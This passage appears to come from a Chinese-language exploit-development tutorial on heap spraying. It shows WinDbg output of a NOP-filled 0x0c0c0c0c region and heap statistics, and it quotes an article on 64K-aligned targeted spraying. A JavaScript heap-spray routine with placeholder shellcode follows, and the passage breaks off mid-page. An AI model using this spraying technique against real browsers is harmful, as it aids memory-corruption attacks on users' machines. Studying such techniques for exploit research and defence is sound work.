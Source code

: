 分配了500块大小为0x40000 * 2的内存块(.length返回大小为实际大小一半)，结果：

```
0:009> dd 0c0c0c0c
0c0c0c0c  90909090 90909090 90909090 90909090
0c0c0c1c  90909090 90909090 90909090 90909090
...
```

可以尝试多次，发现都是成功的，查看堆的状态：

```
0:009> !heap -stat -h 00140000
 heap @ 00140000
group-by: TOTSIZE max-display: 20
    size     #blocks     total     ( %) (percent of total busy bytes)
    7ffe0 1f5 - fa7c160  (99.78)
    8000 1 - 8000  (0.01)
    7fe0 1 - 7fe0  (0.01)
...
```

基本上块的大小都是0x7ffe0，也就是所分配的0x40000 * 2。

------



回到我们的exp，由于堆空间管理的**对齐**（类似Glibc的对齐）和彼此相邻的性质，分配的堆空间将类似下面这个样子：


这一块参考如下文章（http://www.exploit-monday.com/2011/08/targeted-heap-spraying-0x0c0c0c0c-is.html）：

![img](http://4.bp.blogspot.com/-xM3evabUguA/TlulZu6npaI/AAAAAAAAAB0/afhXWHrFcd0/s1600/spray_diagram.png)

> 有一种方法允许你可靠地分配shellcode，使得它既处在可预测的位置，又和内存页面对齐（64K对齐）。为什么要64K对齐？因为堆页地址的十六进制末尾4位为0000。因此，任何javascript字符串将是6个字节长加上Unicode编码字符串的长度。此外，使用VirtualAlloc分配的堆块长度为0x20字节。因此，通过VirtualAlloc分配的shellcode将始终位于偏移0x24处。另外，由于每个分配产生一个64K对齐的地址，我们可以进行一系列完全等于64K的字符串分配。这样，我们的shellcode开头将始终位于类似（0xXXXX0024）的地址。
>
> 以下Javascript代码分配16个64K字符串（即1MB）的数组。注意，第16个分配考虑了堆头和字符串长度，因此只分配了一兆字节。然后将得到的数组分配一百次，从而精确分配100MB。
>
> ```html
> <html>
> <head>
> <script>
> function heapspray(){
> var shellcode = "u\4141";
> 
> while (shellcode.length < 100000)
>  shellcode = shellcode + shellcode;
> 
> var onemeg = shellcode.substr(0, 64*1024/2);
> 
> for (i=0; i<14; i++) {
>  onemeg += shellcode.substr(0, 64*1024/2);
> }
> 
> onemeg += shellcode.substr(0, (64*1024/2)-(38/2));
> 
> var spray = new Array();
> 
> for (i=0; i<100; i++) {
>  spray[i] = onemeg.substr(0, onemeg.length);
> }
> }
> </script>
> </head>
> <input type="button" value="Spray the heap" onclick="heapspray()"></input>
> </body>